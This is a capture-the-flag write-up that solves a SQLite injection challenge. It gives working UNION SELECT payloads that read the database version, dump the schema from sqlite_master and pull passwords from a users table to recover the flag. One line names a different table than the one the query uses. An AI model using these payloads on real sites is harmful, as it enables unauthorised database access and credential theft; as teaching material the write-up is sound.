```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Select the user by ID you wish to view

![1](https://github.com/Kunull/Write-ups/assets/110326359/6a959b03-a547-4541-905b-a2a9d80c4848)

Let's click on the `Submit Query` button.

![2](https://github.com/Kunull/Write-ups/assets/110326359/fdd16ff0-d37f-44e2-b1db-91355a5734fb)

Reading the source code, we can see that the database being used is SQLite and our input is being inserted within the following query:

![3](https://github.com/Kunull/Write-ups/assets/110326359/1742de8f-980c-4496-86c4-342d14b2d981)

```
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```

## SQL Injection

In order to retrieve the flag, we first need to retrieve the table name. We can refer this [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) list.
### Retrieving SQLite version

The SQLite version can be retrieved using the following query:

```
select sqlite_version();
```

Since the original `SELECT` statement selects two columns, we need to do the same in our `UNION` query.

If we provide the following input:

```
1 UNION SELECT Null, sqlite_version();
```

The resultant query will be:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sqlite_version(); LIMIT 1
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/19852d2c-fdd7-4314-b30a-317dfa687674)

The version of SQLite being used is `3.27.2`.

### Listing the tables

For SQLite versions `3.33.0` and previous, the `sqlite_master` table contains the schema for the database including information about all the tables, indexes, views, and triggers that exist in the database.

```
SELECT sql FROM sqlite_master
```

If we provide the following input:

```
1 UNION SELECT Null, sql FROM sqlite_master;
```

The resultant query becomes:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sql FROM sqlite_master; LIMIT 1
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e4d213c2-8870-4a0e-88be-584162fcd0a5)

There is a `users` table which has three columns: `id`, `username` and `password`.

### Retrieving the flag

Now that we know the table name is `table2652065454664187289`, we can easily retrieve the password from the table.

If we provide the following input:

```
1 UNION SELECT id, password FROM users;
```

The resultant query becomes:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT id, password FROM users; LIMIT 1
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/76b1488a-e890-45b5-8fc7-d4f598288910)

## Flag

```
WEBSEC{Simple_SQLite_Injection}
```
